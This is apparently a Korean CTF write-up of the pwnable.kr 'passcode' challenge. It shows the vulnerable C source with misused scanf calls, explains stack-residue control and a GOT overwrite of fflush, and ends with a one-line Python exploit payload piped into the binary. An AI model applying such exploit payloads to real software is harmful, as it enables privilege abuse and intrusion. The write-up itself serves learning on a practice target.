



# passcode
> 엄마가 비밀번호 기반 로그인 시스템을 만드라고 하셧어요! 심지어 C코드가 에러없이 한번에 컴파일되었어요!!
뭐, 컴파일러 경고가 잇엇지만 누가 신경이나 쓰겠어요?

# 문제 개요
* pwnable.kr - Toddler's Bottle
* 20 point
* files: `flag`, `passcode`, `passcode.c`

```
[*] '/home/passcode/passcode'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```
# 프로그램 분석 
컴파일 warning이 있었다고 했었으니 컴파일 메세지를  봅시다..
```
(base) somonox@device:/mnt/c/Users/somonox/hacking$ gcc -m32 main.c
main.c: In function ‘login’:
main.c:9:17: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
    9 |         scanf("%d", passcode1);
      |                ~^   ~~~~~~~~~
      |                 |   |
      |                 |   int
      |                 int *
main.c:14:17: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
   14 |         scanf("%d", passcode2);
      |                ~^   ~~~~~~~~~
      |                 |   |
      |                 |   int
      |                 int *
main.c:19:17: warning: implicit declaration of function ‘setregid’ [-Wimplicit-function-declaration]
   19 |                 setregid(getegid(), getegid());
      |                 ^~~~~~~~
main.c:19:26: warning: implicit declaration of function ‘getegid’ [-Wimplicit-function-declaration]
   19 |                 setregid(getegid(), getegid());
      |
```
변수의 포인터가 아니라 변수 그 자체를 넣어버렸군요.. 하지만 이것만으로는 어떻게 exploit할지가 떠오르지 않습니다..
```
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==123456 && passcode2==13371337){
                printf("Login OK!\n");
                setregid(getegid(), getegid());
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.1 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```
# 설계 및 시나리오
고민 해보던중 다음이 생각 났습니다.
초기화 안된 스택 변수에는 이전 스택에서 쓰이던 쓰래기 값이 들어간다
-> 

이전 스택에서 미리 다음에 선언된 변수의 값을 지정할 수있지 않을까??? 라는 생각이 들었습니다







이후 각각 오프셋을 계산해보았습니다


**각각 buf로 부터 오프셋**:
* passcode1: 96
* passcode2: 100


따라서 A*96개와 p32(13371337) + p32(123456)가 있으면 됩니다
하지만 104개로 오버되므로 다른 방법을 강구애야합니다... 

그래서 passcode1만 사용하는 방법을 알아내었습니다.
바로 GOT overwrite입니다.
ASLR과 PIE가 켜져있었다면 불가능했겠지만, PIE가 꺼져있으므로 GOT의 베이스 주소가 고정됩니다.
따라서 gdb를 사용해 passcode1을 입력받은 다음에 가장 먼저 호출하는 libc 함수인 fflush를 overwrite하기로 하였습니다
따라서 96개의 패딩과 4바이트의 fflush주소가 1차 페이로드, 권한 설정하는 코드의 주소가 2차 페이로드가 됩니다.
# 익스플로잇
```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*96 + b'\x14\xc0\x04\x08' + b'\n' + b'134517401')" | ./passcode
```

# 결과

실행 결과와 플래그 문자열은 공개하지 않습니다.
